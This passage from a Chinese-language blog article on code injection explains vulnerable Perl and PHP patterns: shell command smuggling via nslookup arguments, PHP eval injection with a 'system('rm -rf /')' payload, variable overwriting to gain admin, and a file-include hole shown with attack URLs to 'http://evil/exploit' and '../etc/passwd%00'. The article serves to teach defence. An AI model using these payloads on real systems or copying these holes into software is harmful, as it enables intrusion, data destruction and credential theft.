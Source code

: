 }[/perl]


如果用户输入的参数是：


`coolshell.cn%20%3B%20/bin/ls%20-l`


那么，这段perl的程序就成了：



`/path/to/nslookup coolshell.cn ; /bin/ls -l`


我们再来看一段PHP的程序：



```
$myvar = 'somevalue';
$x = $_GET['arg'];
eval('$myvar = ' . $x . ';');
```

“`eval`“的参数将会视同PHP处理，所以额外的命令可被添加。例如：如果”arg”如果被设成”`10; system('rm -rf /')`“，后面的”`system('rm -rf /')`“代码将被运行，这等同在服务器上运行开发者意料外的程序。（关于rm -rf /，你懂的，可参看“[一个空格引发的悲剧](https://coolshell.cn/articles/4875.html "一个空格引发的惨剧")”）


再来看一个PHP的代码



```
$isadmin= false;
...
...
foreach ($_GET as $key => $value) {
  $$key = $value;
}
```

如果攻击者在查询字符串中给定”isadmin=1″，那$isadmin将会被设为值 “1”，然后攻击值就取得了网站应用的admin权限了。


再来看一个PHP的示例：



```
$action = 'login';
   if (__isset( $_GET['act'] ) )
      $action = $_GET['act'];
   require( $action . '.php' ); 
```

这个代码相当危险，攻击者有可能可以干这些事：


* `/test.php?act=**http://evil/exploit**` – 注入远程机器上有漏洞的文件。
* `/test.php?act=**/home/www/bbs/upload/exploit**` – 从一个已经上载、叫做exploit.php文件运行其代码。
* `/test.php?act=**../../../../etc/passwd%00**` – 让攻击者取得该UNIX系统目录检索下密码文件的内容。一个使用空元字符以解除`.php`扩展名限制，允许访问其他非 .php 结尾文件。 (PHP默认值”magic\_quotes\_gpc = On”可以终止这种攻击)

